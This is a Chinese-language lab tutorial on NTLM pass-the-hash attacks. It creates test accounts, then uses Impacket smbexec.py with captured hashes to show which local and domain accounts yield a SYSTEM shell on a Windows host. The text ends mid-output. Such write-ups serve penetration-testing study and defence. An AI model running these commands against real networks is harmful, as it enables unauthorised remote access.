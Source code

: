 Hash传递攻击，由于NTLM认证和Kerberos认证的用户密码默认都是使用NTLM Hash进行加密的，因此如果在CMD5等无法破解出明文密码的时候，可以利用NTLM传递来进行攻击。

# 一、本地账户和域账号的PTH的区别
配置四个用户

```plain
# 本地普通用户 public_user
C:\Users\administrator.SEC>net user public_user Az123456@ /add
The command completed successfully.

# 本地管理员组用户 local_admin
C:\Users\administrator.SEC>net user local_admin Az123456@ /add
The command completed successfully.

C:\Users\administrator.SEC>net localgroup administrators local_admin /add
The command completed successfully.

# 本地管理员组用户 administrator
C:\Users\administrator.SEC>net user administrator Az123456789@
The command completed successfully.

# 域用户，在本地管理员组中
C:\Users\administrator.SEC>net user hack Az123456@ /domain
The request will be processed at a domain controller for domain sec.local.

The command completed successfully.

C:\Users\administrator.SEC>net localgroup administrators SEC\hack /add
The command completed successfully.
```

使用smbexec进行验证，哪些用户可以PTH

```plain
# 本地普通用户 public_user 失败
┌──(root㉿Kali)-[~]
└─# smbexec.py public_user@10.10.4.21 -hashes :27d86657f458a28aeed03655ba6a6137
Impacket v0.9.22 - Copyright 2020 SecureAuth Corporation

[-] DCERPC Runtime Error: code: 0x5 - rpc_s_access_denied

# 本地管理员组用户 local_admin 失败
┌──(root㉿Kali)-[~]
└─# smbexec.py local_admin@10.10.4.21 -hashes :27d86657f458a28aeed03655ba6a6137
Impacket v0.9.22 - Copyright 2020 SecureAuth Corporation

[-] DCERPC Runtime Error: code: 0x5 - rpc_s_access_denied

# 本地管理员组用户 administrator 成功
┌──(root㉿Kali)-[~]
└─# smbexec.py administrator@10.10.4.21 -hashes :711fb3ccd6a2a41503d484956a02b362
Impacket v0.9.22 - Copyright 2020 SecureAuth Corporation

[!] Launching semi-interactive shell - Careful what you execute
C:\Windows\system32>whoami
nt authority\system

# 域用户，在本地管理员组中 成功
┌──(root㉿Kali)-[~]
└─# smbexec.py sec/hack@10.10.4.21 -hashes :27d86657f458a28aeed03655ba6a6137
Impacket v0.9.22 - Copyright 2020 SecureAuth Corporation

[!] Launching semi-interactive shell - Careful what you execute
C:\Windows\system32>whoami
```